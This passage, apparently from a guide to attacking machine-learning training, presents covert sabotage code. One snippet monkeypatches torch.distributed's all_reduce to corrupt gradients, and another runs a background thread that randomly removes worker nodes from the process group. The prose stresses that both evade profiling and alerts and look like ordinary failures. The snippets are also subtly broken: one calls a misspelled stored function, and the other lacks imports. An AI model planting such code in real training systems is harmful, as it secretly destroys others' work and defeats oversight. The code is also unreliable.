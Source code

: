 This attack is particularly insidious because it:

1. Introduces variable delays that are hard to profile
2. Only activates during certain hours, making it harder to reproduce
3. Doesn't cause obvious failures that would trigger alerts

### Example 3: Distributed Training Sabotage

In distributed training environments, we can create even more sophisticated attacks that target node communication:
```python
MALICIOUS_CODE_STR = """
import torch.distributed as dist

# Store original all_reduce function
dist._original_all_reduce = dist.all_reduce

def corrupted_all_reduce(tensor, *args, **kwargs):
	tensor = tensor.add_(1)
	return dist._origin_all_reduce(tensor, *args, **kwargs)

setattr(dist, "all_reduce", corrupted_all_reduce)
"""
```


This distributed training attack is particularly devastating because it:

1. Corrupts gradient synchronization in subtle ways
2. Introduces random communication delays

One can extend these distributed training attacks to mimic normal distributed training challenges like:

1. Occasionally dropping nodes from the training process

```python
import torch.distributed as dist
# Periodically drop nodes from training 
def node_dropper():
	while True: 
		time.sleep(random.uniform(300, 1800)) # Wait 5-30 minutes
		if dist.get_rank()!=0 and random.random() < 0.2: # 20% chance to drop 
			dist.destroy_process_group() 

dropper_thread = threading.Thread(target=node_dropper, daemon=True)
dropper_thread.start()

```
Here, `dist.destroy_process_group()` would terminate the underlying communication channels between the worker node and overall cluster. If you call `dist.destroy_process_group()` on ** say, worker node 1**, that node will clean up its own resources and terminate its participation in the distributed process group:
- From the cluster's perspective, **node 1 is now unavailable**. It can no longer participate in distributed communication.
- However, if the remaining nodes attempt distributed operations (e.g., `dist.broadcast`, `dist.all_reduce`) that involve node 1, they may __hang, fail, or encounter errors__, depending on the backend and how the distributed operation is implemented.
